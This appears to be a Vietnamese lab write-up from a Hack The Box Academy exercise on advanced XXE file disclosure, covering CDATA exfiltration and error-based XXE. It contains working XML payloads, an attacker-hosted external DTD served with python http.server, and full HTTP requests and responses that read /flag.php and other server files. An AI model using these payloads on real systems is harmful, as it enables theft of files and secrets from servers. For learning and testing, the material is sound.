


# Advanced File Disclosure

## 1. Advanced Exfiltration với CDATA

Trong một số trường hợp, XXE cơ bản không đọc được file vì nội dung file chứa các ký tự đặc biệt của XML (`<`, `>`, `&`,...) hoặc dữ liệu binary.

`CDATA` cho phép XML parser coi nội dung bên trong là raw data, không phân tích các ký tự đặc biệt.

Ý tưởng:

```
External File
    ↓
CDATA
    ↓
XML Parser coi là dữ liệu thô
    ↓
Đọc được nội dung file
```

Tuy nhiên, XML không cho phép ghép trực tiếp `internal entity` + `external entity`.

### XML Parameter Entity

Để bypass giới hạn này, sử dụng `Parameter Entity`, bắt đầu bằng `%` và chỉ được sử dụng trong DTD.

Có thể:

- Tạo DTD trên máy attacker.
- Host DTD bằng HTTP server.
- Target tải DTD từ server attacker.
- DTD kết hợp CDATA với external file.
- In nội dung file ra response.

Ví dụ ý tưởng:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;"> <!--Nối begin + file + end-->
]>
```

Sau đó, nếu chúng ta tham chiếu đến thực thể `&joined;`, nó phải chứa dữ liệu đã được mã hóa của chúng ta.

Tuy nhiên, cách này sẽ không hiệu quả, vì XML ngăn cản việc kết nối các thực thể nội bộ và bên ngoài, vì vậy chúng ta sẽ phải tìm một phương pháp tốt hơn để thực hiện điều đó.

Ta sử dụng thực thể `%`như đã nói ở trên thay thế cho `&` và ta sẽ được:

```xml 
<!ENTITY joined "%begin;%file;%end;">
```

Thực hành 

```bash 
reDrose18@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
reDrose18@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```


Giờ đây, chúng ta có thể tham chiếu đến thực thể bên ngoài (`xxe.dtd`) và sau đó in thực thể `&joined;` mà chúng ta đã định nghĩa ở trên, thực thể này sẽ chứa nội dung của tệp `submitDetails.php`, như sau:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- Tham chiếu đến thực thể &joined; để in nội dung tệp -->
```



> Một số web server hiện đại có cơ chế chống entity self-reference/DoS nên kỹ thuật này có thể không hoạt động với một số file.

## 2. Error-Based XXE

Một trường hợp khác là ứng dụng không hiển thị bất kỳ XML entity nào trong response.

Khi đó:

```
XXE → File
     ↓
Không có output
     ↓
Không thể đọc trực tiếp
```

Nếu ứng dụng lại hiển thị runtime error, có thể lợi dụng error message để lấy dữ liệu.

Ý tưởng

Tạo một external DTD chứa:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Sau đó kích hoạt `%error;`.

Do `%nonExistingEntity;` không tồn tại, server phát sinh lỗi. Nội dung của `%file;` có thể bị đưa vào error message, từ đó làm lộ nội dung file.

```
XXE
 ↓
External DTD
 ↓
Đọc file
 ↓
Cố tình tạo lỗi
 ↓
Server trả error message
 ↓
File content xuất hiện trong error
```

Tạo 1 dtd 

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

ở ứng dụng dùng payload 

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```



---

## Cách 1 đọc bằng CDATA

host file dtd 

```bash
┌─[eu-academy-3]─[10.10.15.104]─[htb-ac-1384230@htb-knm5qhehhn-htb-cloud-com]─[~]
└──╼ [★]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
┌─[eu-academy-3]─[10.10.15.104]─[htb-ac-1384230@htb-knm5qhehhn-htb-cloud-com]─[~]
└──╼ [★]$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.234.170 - - [10/Aug/2026 23:41:27] "GET /xxe.dtd HTTP/1.0" 200 -
```

Gửi request

```http
POST /submitDetails.php HTTP/1.1
Host: 10.129.234.170
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.234.170/
Content-Type: text/plain;charset=UTF-8
Content-Length: 489
Origin: http://10.129.234.170
DNT: 1
Connection: keep-alive
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.15.104:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
<root>
<name>a</name>
<tel>0123</tel>
<email> &joined;</email>
<message>0123
</message>
</root>
```

```
HTTP/1.1 200 OK
Date: Tue, 11 Aug 2026 03:41:27 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 91
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Check your email  <?php $flag = "HTB{3rr0r5_c4n_l34k_d474}"; ?>
 for further instructions.
```

## Cách 2: ĐỌc bằng error

Sửa file dtd có nội dung 

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

gửi request 

```http
POST /error/submitDetails.php HTTP/1.1
Host: 10.129.234.170
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.234.170/error/
Content-Type: text/plain;charset=UTF-8
Content-Length: 245
Origin: http://10.129.234.170
DNT: 1
Connection: keep-alive
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.104:8000/xxe.dtd">
  %remote;
  %error;
]>
<root>
<name>a</name>
<tel>1255</tel>
<email>a@gmail.com</email>
<message>125</message>
</root>
```

response 

```
HTTP/1.1 200 OK
Date: Tue, 11 Aug 2026 03:45:23 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 464
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<br />
<b>Notice</b>:  DOMDocument::loadXML(): PEReference: %nonExistingEntity; not found in http://10.10.15.104:8000/xxe.dtd, line: 2 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  DOMDocument::loadXML(): Invalid URI: /&lt;?php $flag = &quot;HTB{3rr0r5_c4n_l34k_d474}&quot;; ?&gt; in Entity, line: 2 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
Check your email for further instructions.
```


